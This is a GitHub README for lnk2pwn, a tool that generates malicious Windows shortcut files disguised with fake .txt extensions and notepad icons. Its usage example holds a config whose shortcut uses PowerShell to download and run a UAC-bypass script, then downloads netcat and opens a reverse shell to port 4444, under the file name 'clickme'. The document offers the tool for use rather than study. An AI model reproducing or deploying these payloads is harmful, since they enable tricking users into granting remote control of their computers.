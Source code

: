 # lnk2pwn
Malicious Shortcut(.lnk) Generator

## About
**lnk2pwn** is a cli tool that automates the process of generating malicious .lnk(Windows shortcut) files.

## Installation
lnk2pwn requires **wine** to create a Windows shortcut:

```shell
sudo apt-get install wine
```
You can get the lastest version by clonning this repository:

```shell
git clone https://github.com/tommelo/lnk2pwn
```

## Usage

```shell
python lnk2pwn.py <options>
```

See the options overview:

Short opt | Long opt | Default | Required | Description
--------- | -------- | ------- | -------- | -----------
-g        | --generate    | True        | Yes | generates a malicious .lnk file
-c        | --config-file | config.json | Yes | the shortcut config file
-o        | --output-path | None        | Yes | the output path
-h        | --help        | None        | No  | shows the help usage
N/A       | --version     | None        | No  | shows the application's current version

## The config.json File

The project contains a template file called config.json that defines the attributes of the .lnk file:
```shell
{
    "shortcut": {
        "target_path": "C:\\Windows\\System32\\cmd.exe",
        "working_dir": "C:\\Windows\\System32",
        "arguments": "/c notepad.exe",
        "icon_path": "C:\\Windows\\System32\\notepad.exe",
        "icon_index": null,
        "window_style": "MINIMIZED",
        "description": "lnk2pwn",
        "fake_extension": ".txt",
        "file_name_prefix": "lnk2pwn"
    },

    "elevated_uac": {
        "file_name": "uac_bypass.vbs",
        "cmd": "cmd.exe"
    }
}
```
## Usage Example

Generating a malicious .lnk file that bypasses UAC, downloads and executes netcat:

config.json
```shell
{
    "shortcut": {
        "target_path": "C:\\Windows\\System32\\cmd.exe",
        "working_dir": "C:\\Windows\\System32",
        "arguments": "/c powershell.exe iwr -outf %tmp%\\p.vbs http://127.0.0.1/uac_bypass.vbs & %tmp%\\p.vbs",
        "icon_path": "C:\\Windows\\System32\\notepad.exe",
        "icon_index": null,
        "window_style": "MINIMIZED",
        "description": "trust me",
        "fake_extension": ".txt",
        "file_name_prefix": "clickme"
    },

    "elevated_uac": {
        "file_name": "uac_bypass.vbs",
        "cmd": "cmd.exe /c powershell.exe -nop -w hidden iwr -outf C:\\Windows\\System32\\nc.exe http://127.0.0.1/nc.exe & C:\\Windows\\System32\\nc.exe 127.0.0.1 4444 -e cmd.exe"
    }
}
```
Generating the files:
```shell
python lnk2pwn.py -c config.json -o /var/www/html
```

## Piped Input

You can pipe the config json content to the application:
```shell
cat config.json | python lnk2pwn.py -o /var/www/html
```

## License
This is an open-source software licensed under the [MIT license](https://opensource.org/licenses/MIT).
